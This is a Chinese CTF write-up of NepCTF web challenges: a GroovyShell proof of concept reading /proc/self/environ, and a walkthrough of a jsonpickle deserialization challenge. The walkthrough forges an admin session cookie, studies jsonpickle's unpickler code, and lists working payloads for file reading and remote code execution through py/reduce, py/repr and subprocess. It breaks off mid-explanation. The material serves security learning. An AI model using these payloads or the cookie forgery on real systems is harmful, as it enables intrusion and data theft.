web
easyGooGooVVVY
poc:
import groovy.lang.GroovyShell;
import groovy.lang.Script;
import java.io.File;
public class GroovyShellExample {
public static void main( String[] args ) throws Exception {
GroovyShell groovyShell = new GroovyShell();
Script script = groovyShell.parse(new File("/proc/self/environ")); script.run();
}
}RevengeGooGooVVVY
poc:
```java
import groovy.lang.GroovyShell;
import groovy.lang.Script;
import java.io.File;
public class GroovyShellExample {
public static void main( String[] args ) throws Exception {
GroovyShell groovyShell = new GroovyShell();
Script script = groovyShell.parse(new File("/proc/self/environ")); script.run();
}
}
flag:NepCTF{9649b1fe-8818-e71c-c614-bd7710d198ec}JavaSeri
简单的shiro550反序列化，工具一把梭了

flag{fd9b3f30-bf57-11f7-d0b3-9b5e478c5d1f}safe_bank | 复现
比赛时没有做出来，在这里学习复现一下： 首先主页是一个登录界面，下面还有注册界面和介绍

/about接口给了题目的技术栈
注册/register可以注册不存在的用户名，admin显示已存在不能注册
先注册一个测试账号试一下 登录之后可以看到，题目有一个/auth接口和/panel接口，我猜测/auth是先通过用户发送的账号密码查询是否注册过，如果是已注册账号就生成一个authz的验证cookie传回客户端，客户端再用这个cookie登录/panel查看自己的功能

我当时想的是明明验证用户账号的功能可以放进一个路径为什么要写两个？一定是有什么原因（虽然后面证明确实有原因但完全不是我想得那样）有想到如果我万一能通过爆破admin的密码能爆破出账号呢？（完全不能）最后在我的10000个密码爆破未果的情况下放弃。 不得已我又查看了authz的构成，base64解码之后是：{"py/object": "__main__.Session", "meta": {"user": "1111", "ts": 1753707525}}
可以看到只有用户名和时间戳，根本没有密码的事，至于为什么我一开始没有想到把用户名改为admin呢？因为我以为题目会检验用户名对应的时间戳，最后试的时候发现根本没有，就算把时间戳删了也不影响登录，题目只会解析user的内容
于是试着用{"py/object": "__main__.Session", "meta": {"user": "admin"}}登录admin，发现成功登录admin，成功跳转到管理员保险柜/vault，成功获取假flag

那么如何获取真flag呢？我一开始想rce，但是能rce的模块和方法都被过滤完了，艰难的fuzz环节已经不想再说，最后只期望可以读取文件，结果发现题目会把user里面的所有东西识别成字符串，所有没被过滤的可执行语句都被作为用户名打印出来了，如果有多个user则只会识别最后一个，把user改成其他的大多会输出为用户名none，只有少数几个可以真被执行，比如在测试NameTemporaryFile函数{"py/object": "main.Session", "meta": {"user": {"py/function": "tempfile.NamedTemporaryFile", "py/args": [], "name": "/proc/self/environ"}}}
时返回的是

时间函数：{"py/object": "__main__.Session", "meta": {"user": {"py/function": "time.time", "py/args": []}}}
返回：

都是几个内置的函数，但是由于只是把函数返回而不是执行所以也不能利用，这是py/function的情况，做到这比赛时也已经没思路了，下面就是复现学习的干货了：复现部分
首先要参考一篇文章，先给这个文章做个总结：
根据官方文档，jsonpickle用于匹配python的其他json相关库比如·json,simplejson,ujson等，通过将比json对象更复杂的数据类型（比如包含类、方法等）现将json字符串转换为json对象（即字典Dict）再根据Json对象中键代表的特殊标签，来进一步恢复Python对象。
既然是反序列化就一定会出现相关漏洞，这一点在官方文档开篇就提到了。对于未受信任数据的反序列化，考虑使用HMAC对数据进行签名以防止被篡改，或者使用内置库JSON这种安全的反序列化方法。
首先尝试用jsonpickle序列化一个对象，体会这个过程，就用题目里的authz来举例
from dataclasses import dataclass
import time
import jsonpickle
@dataclass
class Session:
meta: dict
session = Session(meta={"user": "admin", "ts": int(time.time())})
print(jsonpickle.encode(session))@dataclass修饰器跟Java中的lombok注解类似，用于自动给类添加方法 __init__, __repr__等
这样可以生成和题目里cookie格式一样的authz
打印得到的py/object便是标签，用来表示一个Python对象。支持的标签见jsonpickle/tags.py，这些标签对应的处理函数见jsonpickle/unpickler.py。
具体查看unpickler.py代码看反序列化具体流程
def decode(string, backend=None, context=None, keys=False, reset=True,
safe=False, classes=None):
"""Convert a JSON string into a Python object.
The keyword argument 'keys' defaults to False.
If set to True then jsonpickle will decode non-string dictionary keys
into python objects via the jsonpickle protocol.
The keyword argument 'classes' defaults to None.
If set to a single class, or a sequence (list, set, tuple) of classes,
then the classes will be made available when constructing objects. This
can be used to give jsonpickle access to local classes that are not
available through the global module import scope.
>>> decode('"my string"') == 'my string'
True
>>> decode('36')
36
"""
backend = backend or json
context = context or Unpickler(keys=keys, backend=backend, safe=safe)
data = backend.decode(string)
return context.restore(data, reset=reset, classes=classes)可以看到__restore方法根据标签恢复对象
def _restore(self, obj):
if has_tag(obj, tags.B64):
restore = self._restore_base64
elif has_tag(obj, tags.B85):
restore = self._restore_base85
elif has_tag(obj, tags.BYTES): # Backwards compatibility
restore = self._restore_quopri
elif has_tag(obj, tags.ID):
restore = self._restore_id
elif has_tag(obj, tags.REF): # Backwards compatibility
restore = self._restore_ref
elif has_tag(obj, tags.ITERATOR):
restore = self._restore_iterator
elif has_tag(obj, tags.TYPE):
restore = self._restore_type
elif has_tag(obj, tags.REPR): # Backwards compatibility
restore = self._restore_repr
elif has_tag(obj, tags.REDUCE):
restore = self._restore_reduce
elif has_tag(obj, tags.OBJECT):
restore = self._restore_object
elif has_tag(obj, tags.FUNCTION):
restore = self._restore_function
elif util.is_list(obj):
restore = self._restore_list
elif has_tag(obj, tags.TUPLE):
restore = self._restore_tuple
elif has_tag(obj, tags.SET):
restore = self._restore_set
elif util.is_dictionary(obj):
restore = self._restore_dict
else:
def restore(x):
return x
return restore(obj)py/type
def _restore_type(self, obj): return loadclass(obj[tags.TYPE], classes=self._classes)
def loadclass(module_and_name, classes=None): """Loads the module and returns the class.
>>> cls = loadclass('datetime.datetime')
>>> cls.__name__
'datetime'
>>> loadclass('does.not.exist')
>>> loadclass('builtins.int')()
"""
# Check if the class exists in a caller-provided scope
if classes: pass
# Otherwise, load classes from globally-accessible imports
names = module_and_name.split('.')
# First assume that everything up to the last dot is the module name,
# then try other splits to handle classes that are defined within
# classes
for up_to in range(len(names) - 1, 0, -1):
module = util.untranslate_module_name('.'.join(names[:up_to]))
try:
__import__(module)
obj = sys.modules[module]
for class_name in names[up_to:]:
obj = getattr(obj, class_name)
return obj
except (AttributeError, ImportError, ValueError):
continue
# NoneType is a special case and can not be imported/created
if module_and_name == "builtins.NoneType":
return type(None)
return None
注释也写的很详细了，首先会尝试__import__最后一个点号（.）前面的内容作为module，再通过getattr获取对应的属性，并且这里能够递归地获取属性。
获取失败则回退一个点号（.）继续尝试。
py/function
def _restore_function(self, obj): return loadclass(obj[tags.FUNCTION], classes=self._classes)
虽然名叫_restore_function恢复函数，实则和恢复类_restore_type的方式是一套的
py/mod
def _restore_module(self, obj): obj = _loadmodule(obj[tags.MODULE]) return self._mkref(obj)
def _loadmodule(module_str): """Returns a reference to a module.
>>> fn = _loadmodule('datetime/datetime.datetime.fromtimestamp')
>>> fn.__name__
'fromtimestamp'
"""
module, identifier = module_str.split('/')
result = __import__(module)
for name in identifier.split('.')[1:]:
try:
result = getattr(result, name)
except AttributeError:
return None
return result
这个_loadmodule的逻辑其实和上面的loadclass类似，也是能够递归地获取属性。
注意这里会忽略identifier的第一个元素
py/repr
jsonpickle默认开启safe，_restore_repr_safe是调的_loadmodule，实际上也不能利用这个标签
if self.safe: restore = self._restore_repr_safe else: restore = self._restore_repr
但也不妨看看不safe的流程，_restore_repr调的loadrepr
def loadrepr(reprstr): """Returns an instance of the object from the object’s repr() string. It involves the dynamic specification of code.
.. warning::
This function is unsafe and uses `eval()`.
>>> obj = loadrepr('datetime/datetime.datetime.now()')
>>> obj.__class__.__name__
'datetime'
"""
module, evalstr = reprstr.split('/')
mylocals = locals()
localname = module
if '.' in localname:
localname = module.split('.', 1)[0]
mylocals[localname] = __import__(module)
return eval(evalstr, mylocals)
导入/左边的模块作为locals，/右边的作为eval的内容
{'py/repr': 'os/os.system("calc")'}
#jsonpickle.decode(exp, safe=False)
py/reduce
这个标签是用于模拟pickle序列化时用到的__reduce__魔术方法
__reduce__返回一个元组用于恢复对象，这个元组的长度可为2~5，后三个元素为可选。
第一个元素为可调用的对象，用于重建对象时调用；第二个元素为参数元组，用于传入可调用对象。
首先对这个标签的值（要求是一个可迭代对象，如列表、元组、集合等）都应用self._restore来进行恢复，同样也是经过上面的_restore_tags来获取标签对应的处理函数。
接着判断f（即获取到的第一个元素）是否为py/newobj标签或__newobj__方法，若是则调用__new__方法，否则就直接执行f(*args)。
可以看到在python中，对象的实例化和方法的调用，这两者的边界在静态层面是很模糊的
对于
xxx(yyy)，得动态运行时才能确定xxx到底是type还是function而不像其他强类型语言得通过
new关键字来实例化，这也使得python的代码执行更加灵活吧
def _restore_reduce(self, obj): """ Supports restoring with all elements of reduce as per pep 307. Assumes that iterator items (the last two) are represented as lists as per pickler implementation. """ reduce_val = list(map(self._restore, obj[tags.REDUCE])) if len(reduce_val) < 5: reduce_val.extend([None] * (5 - len(reduce_val))) f, args, state, listitems, dictitems = reduce_val
if f == tags.NEWOBJ or getattr(f, '__name__', '') == '__newobj__':
cls = args[0]
if not isinstance(cls, type):
cls = self._restore(cls)
stage1 = cls.__new__(cls, *args[1:])
else:
stage1 = f(*args)
if state: pass
if listitems: pass
if dictitems: pass
return stage1
可以构造如下payload
{‘py/reduce’: [{‘py/function’: ‘builtins.eval’}, {‘py/tuple’: [“import(‘os’).system(‘calc’)”]}]}
py/object
def _restore_object(self, obj):
class_name = obj[tags.OBJECT]
cls = loadclass(class_name, classes=self._classes)
return self._restore_object_instance(obj, cls, class_name)
def _restore_object_instance(self, obj, cls, class_name=''):
# An object can install itself as its own factory, so load the factory
# after the instance is available for referencing.
factory = self._loadfactory(obj)
if has_tag(obj, tags.NEWARGSEX):
args, kwargs = obj[tags.NEWARGSEX]
else:
args = getargs(obj, classes=self._classes)
kwargs = {}
if args:
args = self._restore(args)
if kwargs:
kwargs = self._restore(kwargs)
is_oldstyle = not (isinstance(cls, type) or getattr(cls, '__meta__', None))
try:
if not is_oldstyle and hasattr(cls, '__new__'):
# new style classes
if factory:
instance = cls.__new__(cls, factory, *args, **kwargs)
instance.default_factory = factory
else:
instance = cls.__new__(cls, *args, **kwargs)
else:
instance = object.__new__(cls)
except TypeError: # old-style classes
is_oldstyle = True
if is_oldstyle:
try:
instance = cls(*args)
except TypeError: # fail gracefully
pass
if isinstance(instance, tuple):
return instance
instance = self._restore_object_instance_variables(obj, instance)
return instance首先通过loadclass获取类，和上面的py/function和py/type一样
接着获取py/newargsex、py/newargs、py/initargs这些标签的值并通过self._restore恢复
然后尝试调用__new__方法进行实例化，重点就在这里，若实例化失败，则判定为old-style classes
调用cls(*args)来恢复，和py/reduce的做法一样。
后续
接下来就是找一个可以利用的方法了。 列目录：
{'py/object': 'glob.glob', 'py/newargs': {'/*'}}
{'py/object': 'os.listdir', 'py/newargs': ['/']}
读文件：
{'py/object': 'linecache.getlines', 'py/newargs': ['/flag']}
RCE：
{'py/object': 'subprocess.run', 'py/newargs': ['calc']} {‘py/object’: ‘subprocess.getoutput’, ‘py/newargs’: [‘calc’]}
{'py/object': 'pickle.loads', 'py/newargs': ``[{'py/b64':'KGNvcwpzeXN0ZW0KUydiYXNoIC1jICJjYWxjIicKby4='}]} {‘py/object’: ‘timeit.main’, ‘py/newargs’: [[‘-r’, ‘1’, ‘-n’, ‘1’, ‘import(“os”).system(“calc”)’]]} {‘py/object’: ‘uuid._get_command_stdout’, ‘py/newargs’: [‘calc’]} {‘py/object’: ‘pydoc.pipepager’, ‘py/newargs’: [‘a’, ‘calc’]}上面的payload大多数都被过滤了，有一些print()输出的也由于flask框架无法使用，不过题目是读取用户名显示在{$user}那里，所以可以尝试读文件的payload，由于前面测试过题目只反序列化user，所以构造payload:{“py/object”: “main.Session”, “meta”: {“user”: {“py/object”: “glob.glob”, “py/newargsex”: [{“py/set”:[”/”]},""]},“ts”:1753446254}} 这里的payload与{‘py/object’: ‘glob.glob’, ‘py/newargs’: {’/’}}`不太一样是因为：
- 这道题用的json一直是双引号，单引号解析不了
- 这里应该用
newargsex而不是newargs先从tags.py里找到两种标签代表的类型
先介绍一下前置知识，python在2.x版本中类系统相对简单，不从Object中继承，直接用__init__创建，直到2.2+引入__new__方法，直到python3才完全采用新式类，从Object隐式继承。__new__是一个静态方法，负责创建并返回类的新实例。它在__init__之前被调用。简单来说__new__是创建类的，___init__是初始化类的。
class Person:
def __new__(cls, name, age):
print(f"1. __new__ called: creating instance for {name}")
instance = object.__new__(cls)
print(f"2. __new__ returning instance: {instance}")
return instance
def __init__(self, name, age):
print(f"3. __init__ called: initializing {name}")
self.name = name
self.age = age
print(f"4. __init__ finished")
# 创建对象时的执行顺序：
person = Person("Alice", 25)
# 输出：
# 1. __new__ called: creating instance for Alice
# 2. __new__ returning instance: <__main__.Person object at 0x...>
# 3. __init__ called: initializing Alice
# 4. __init__ finished看看unpickler.py中newargsex反序列化的方式：
